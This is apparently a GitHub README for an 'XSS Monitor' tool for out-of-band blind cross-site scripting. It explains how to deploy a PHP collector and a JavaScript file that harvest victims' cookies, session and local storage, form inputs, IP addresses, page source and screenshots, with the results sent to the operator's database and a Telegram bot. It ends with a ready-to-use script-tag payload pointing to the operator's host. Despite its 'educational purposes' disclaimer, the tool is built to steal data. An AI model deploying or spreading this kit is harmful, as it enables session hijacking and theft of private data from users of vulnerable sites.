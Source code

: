 # XSS Monitor tool for OOB Blind-XSS
 
The XSS-Monitor Tool is provided for educational purposes only.

**Created By** : ​🅰🆁🆂🅷🅸🆈🅰
 
This tool is designed for testing XSS vulnerabilities and helping make the Internet and Web applications more secure. By using this tool, you get this item from user load xss : 

Cookies ,
Location,
UserAgent,
User ip,
Local Data,
Session Data,
Inputs item,
Page HTML source code,
Page Title,
ScreenShot of page

## How to install :

  1.Upload alert.php , eksss.js on your host
  
  2.change "https://YourSiteName.com/alert.php" in eksss.js to your host and path of PHP file and save it.
  
  3.open alert.php and set your information of Database config 

  ```php
      $servername = "localhost";
      $username = "UserDB_xss";
      $password = "PAS-DB";
      $dbname = "DB-name_monitor"
  ```

  4.set Telegram Bot information and ChatID Acount which you want to be notified :

  ```php
      $token = "**********Bot_Token***************";
      $chat_id = "****YourTelegramChatID";
  ```
      
  5.save alert.php 

## How to Use:

  use this payload for test :

          <script src=https://YourSiteName.com/eksss.js></script>
  
